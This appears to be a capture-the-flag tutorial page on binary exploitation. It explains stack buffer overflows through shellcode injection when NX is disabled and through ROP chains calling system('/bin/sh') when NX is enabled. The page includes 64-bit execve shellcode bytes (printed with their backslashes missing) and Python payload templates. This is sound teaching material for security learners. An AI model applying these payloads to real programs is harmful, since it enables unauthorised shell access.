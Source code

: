 ```yaml
---
title: ROP Chains and Shellcode Injection
parent: Protection Bypass
grand_parent: Pwn
great_grand_parent: Categories
nav_order: 6
layout: default
---
```


# ROP Chains and Shellcode Injection

This guide explains how to proceed based on whether the binary has **NX enabled** or **NX disabled**.

---

## Shellcode Injection (When NX is Disabled)

If NX (No-eXecute) is **disabled**, memory regions like the stack are executable.

### Exploitation Strategy

1. Overflow the buffer.
2. Inject custom shellcode onto the stack.
3. Overwrite the return address (RIP) to point to your shellcode.

### Example Shellcode (64-bit)

Execve shellcode to spawn a shell (`/bin/sh`):

```assembly
x48x31xd2                                  // xor    rdx, rdx
x48xbbxffx2fx62x69x6ex2fx73x68      // movabs rbx, 0x68732f6e69622fff
x53                                          // push   rbx
x48x89xe7                                  // mov    rdi, rsp
x50                                          // push   rax
x57                                          // push   rdi
x48x89xe6                                  // mov    rsi, rsp
xb0x3b                                      // mov    al, 0x3b
x0fx05                                      // syscall
```

### Payload Layout

```
[ padding to overflow buffer ]
[ shellcode ]
[ padding to reach RIP ]
[ stack address pointing to shellcode ]
```

Example Payload:
```python
payload = b"A" * offset
payload += shellcode
payload += b"B" * (rip_offset - len(shellcode))
payload += p64(shellcode_address)
```

---

## ROP Chain (When NX is Enabled)

If NX is **enabled**, the stack cannot be executed — you cannot jump to shellcode. You must reuse existing executable code (ROP).

### Exploitation Strategy

1. Find a leak to get libc or binary base address.
2. Find useful gadgets (`pop rdi; ret`, etc.).
3. Build a ROP chain to call `system("/bin/sh")`.

### Common Gadgets (64-bit)

- `pop rdi; ret` — to set up the first argument in `rdi`.
- Addresses of `system` and `"/bin/sh"` in libc.

### Typical ROP Payload

```
[ padding to overflow buffer ]
[ pop rdi; ret gadget address ]
[ address of "/bin/sh" string ]
[ address of system() function ]
```

Example:
```python
payload = b"A" * offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

---

## Notes

- **NX disabled**: Use shellcode — easy.
- **NX enabled**: Use ROP chains — requires libc or binary leak.
- **64-bit ROP**: Arguments passed in registers (rdi, rsi, rdx).
- **32-bit ROP**: Arguments passed on the stack — different calling convention.

For information on how to leak libc addresses, see [Infoleak Techniques](infoleak.md).
